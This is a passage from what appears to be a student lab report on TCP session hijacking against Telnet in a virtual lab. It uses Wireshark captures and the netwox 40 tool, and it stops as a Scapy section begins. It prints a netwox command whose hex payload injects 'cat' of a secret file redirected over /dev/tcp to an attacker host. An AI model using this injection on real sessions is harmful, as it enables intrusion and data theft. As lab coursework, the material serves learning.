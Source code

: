 <figure>
<img style="width:100%; padding-left:0%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_054d2f90ec0b8c95f6340ba4a9cabf99.png"/>
<figcaption> Figure 4.1.2 The last captured Telnet package by Wireshark</figcaption><br>
</figure>

### 4.2 Attack by Netwox

Before launching attack, it was essential to know the sequence number for the next package. We used Wireshark to get all data there. The image below shows the last Telnet package we got from Wireshark. We prepared with the ip, port numbers given, which were 10.0.2.6:39172 (client) and 10.0.2.7:23 (Server). Also, we could use the above Seq number and Ack number. Finally, we set the flag as Ack and set the data with our reverse Shell code command like the following. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_6f7b9de46e88b5bd5a0b62838cf1b2f3.png"/>
<figcaption> Figure 4.2.1 The last captured Telnet package by Wireshark</figcaption><br>
</figure>

Then, we used the `netwox 40` to launch the attack, and the image below shows the help document of it. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_0873f3d0f9a46b4ff4e7f0347ecc9658.png"/>
<figcaption> Figure 4.2.1 The help document of the netwox 40</figcaption><br>
</figure>


Then, we used the command below to steal the secret. 

```Shell
$ sudo netwox 40 \
    -l 10.0.2.6 -o 39172 \
    -m 10.0.2.7 -p 23 \
    -q 3144319184 -r 2594595218 -z \
    -j 64 -E 237 -H 0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d
```

The image below shows that we successfully access the data inside of the screte file in "*VTM1*" by the `netcat` on "*ATK*". 

<figure>
<img style="width:100%; padding-left:0%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_132822999242ee8170a3cfd3ff6d74db.png"/>
<figcaption> Figure 4.2.2 Executing of the attack from the netwox</figcaption><br>
</figure>

(PS. After attacking, the TelNet connection was completely lose control on "*VTM2*". Therefore, we restarted a new connection for following tasks)

### 4.3 Attack by Scapy

We also implemented the attack by the Python package, Scapy. Before attacking, we used the Wireshark again to get the last TelNet package. The port number (39176), sequence number (3770990930) and ACK number (1042719746) were updated. 

